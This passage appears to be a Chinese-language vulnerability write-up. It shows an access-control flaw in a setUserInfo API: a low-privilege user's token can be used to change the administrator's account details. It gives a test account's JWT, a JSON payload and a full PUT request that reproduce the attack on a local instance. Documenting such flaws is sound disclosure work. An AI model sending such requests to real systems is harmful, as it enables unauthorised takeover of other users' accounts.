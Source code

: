 这里没有对传入的ID进行校验，ID代表用户的，直接传入指定的ID就可以修改对应用户的个人信息

![image-20211230141732113](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20211230141732113.png)

首先我们用管理员的X-token测试修改ID为1的用户的名称修改为test1，随后我们可以在后台中看到管理员的ID已经被修改为test1了

![image-20211230144216099](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20211230144216099.png)

那么接下来，我们使用刚刚新建的UzJu_HxSecTeam账号的Token替换进去，将管理员用户名修改为test2

首先我们UzJu_HxSecTeam的账号个人信息>修改密码 这里随便修改密码，然后获取到账号Token

![image-20211230144321622](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20211230144321622.png)

这个Token是低权限那个角色的，正常低权限的用户是不可以修改管理员的任何信息的

```http
x-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJVVUlEIjoiYTM1NTRiYmYtYzQwNS00ZWEwLTkzZjQtMzQ1YTRiNzIxMWYxIiwiSUQiOjMsIlVzZXJuYW1lIjoiVXpKdV9IeFNlY1RlYW0iLCJOaWNrTmFtZSI6IlV6SnVfSHhTZWNUZWFtIiwiQXV0aG9yaXR5SWQiOiIxMjM0IiwiQnVmZmVyVGltZSI6ODY0MDAsImV4cCI6MTY0MTQ1MDk5OCwiaXNzIjoicW1QbHVzIiwibmJmIjoxNjQwODQ1MTk4fQ.0vm9DA7RHOi-ZBN6p-C4RIjJS7Qs9kbXKLNpmc6nyDs
```

我们将Token替换进去，构造如下Json数据

```json
{
  "id":1,
  "username":"test2",
  "nickName":"test2",
  "headerImg":""
}
```

![image-20211230144527291](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20211230144527291.png)

我们将Token替换到setUserinfo接口

```http
PUT /api/user/setUserInfo HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json
x-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJVVUlEIjoiYTM1NTRiYmYtYzQwNS00ZWEwLTkzZjQtMzQ1YTRiNzIxMWYxIiwiSUQiOjMsIlVzZXJuYW1lIjoiVXpKdV9IeFNlY1RlYW0iLCJOaWNrTmFtZSI6IlV6SnVfSHhTZWNUZWFtIiwiQXV0aG9yaXR5SWQiOiIxMjM0IiwiQnVmZmVyVGltZSI6ODY0MDAsImV4cCI6MTY0MTQ1MDk5OCwiaXNzIjoicW1QbHVzIiwibmJmIjoxNjQwODQ1MTk4fQ.0vm9DA7RHOi-ZBN6p-C4RIjJS7Qs9kbXKLNpmc6nyDs
x-user-id: 1
Content-Length: 67
Origin: http://localhost:8080
Connection: close
Referer: http://localhost:8080/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{"id":1,
"username":"test2",
"nickName":"test2",
"headerImg":""}
```
